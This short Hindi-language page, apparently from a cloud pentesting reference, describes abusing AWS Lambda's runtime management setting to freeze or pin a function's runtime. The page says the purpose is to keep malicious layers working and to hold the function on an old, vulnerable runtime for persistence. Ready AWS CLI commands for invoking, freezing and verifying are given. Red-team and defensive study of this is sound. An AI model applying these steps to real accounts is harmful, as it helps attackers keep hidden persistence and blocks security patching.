 # AWS Lambda – Runtime Pinning/Rollback Abuse via PutRuntimeManagementConfig

Abuse `lambda:PutRuntimeManagementConfig` करके किसी function को एक विशिष्ट runtime version (Manual) पर पिन करें या अपडेट्स को फ्रीज़ करें (FunctionUpdate)। यह malicious layers/wrappers के साथ संगतता बनाए रखता है और फ़ंक्शन को एक पुरानी, कमजोर runtime पर रोक कर exploitation और लंबी अवधि की persistence में मदद कर सकता है।

आवश्यकताएँ: `lambda:InvokeFunction`, `logs:FilterLogEvents`, `lambda:PutRuntimeManagementConfig`, `lambda:GetRuntimeManagementConfig`.

उदाहरण (us-east-1):
- इवोक (Invoke): `aws lambda invoke --function-name  /tmp/ping.json --payload {} --region us-east-1 > /dev/null; sleep 5`
- अपडेट फ्रीज़ करें (Freeze updates): `aws lambda put-runtime-management-config --function-name  --update-runtime-on FunctionUpdate --region us-east-1`
- सत्यापित करें (Verify): `aws lambda get-runtime-management-config --function-name  --region us-east-1`

वैकल्पिक रूप से, INIT_START logs से Runtime Version ARN निकालकर और `--update-runtime-on Manual --runtime-version-arn <arn>` का उपयोग करके किसी विशिष्ट runtime version पर पिन करें।
